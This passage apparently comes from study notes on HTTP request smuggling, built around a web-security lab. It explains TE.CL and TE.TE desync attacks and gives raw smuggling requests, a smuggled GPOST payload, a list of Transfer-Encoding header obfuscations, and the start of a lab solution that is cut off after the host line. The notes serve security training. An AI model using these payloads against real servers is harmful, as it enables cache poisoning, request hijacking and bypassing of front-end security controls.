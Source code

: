 ## TE.CL vulnerabilities
Here, the front-end server uses the Transfer-Encoding header and the back-end server uses the Content-Length header. We can perform a simple HTTP request smuggling attack as follows: 
```
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 3
Transfer-Encoding: chunked

8
SMUGGLED
0
```
 To send this request using Burp Repeater, you will first need to go to the Repeater menu and ensure that the "Update Content-Length" option is unchecked.

You need to include the trailing sequence \r\n\r\n following the final 0.  
The front-end server processes the Transfer-Encoding header, and so treats the message body as using chunked encoding. It processes the first chunk, which is stated to be 8 bytes long, up to the start of the line following SMUGGLED. It processes the second chunk, which is stated to be zero length, and so is treated as terminating the request. This request is forwarded on to the back-end server.  
The back-end server processes the Content-Length header and determines that the request body is 3 bytes long, up to the start of the line following 8. The following bytes, starting with SMUGGLED, are left unprocessed, and the back-end server will treat these as being the start of the next request in the sequence.  
```
Content-Length: 4

65
GPOST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 20

smuggled=yes
0


```
## TE.TE behavior: obfuscating the TE header
 Here, the front-end and back-end servers both support the Transfer-Encoding header, but one of the servers can be induced not to process it by obfuscating the header in some way.

There are potentially endless ways to obfuscate the Transfer-Encoding header. For example: 
```
Transfer-Encoding: xchunked

Transfer-Encoding : chunked

Transfer-Encoding: chunked
Transfer-Encoding: x

Transfer-Encoding:[tab]chunked

[space]Transfer-Encoding: chunked

X: X[\n]Transfer-Encoding: chunked

Transfer-Encoding
: chunked
```
Lab solution:
```
POST / HTTP/1.1
Host: 0a2d00ff037899c8c17fc88600cc00e5.web-security-academy.net
```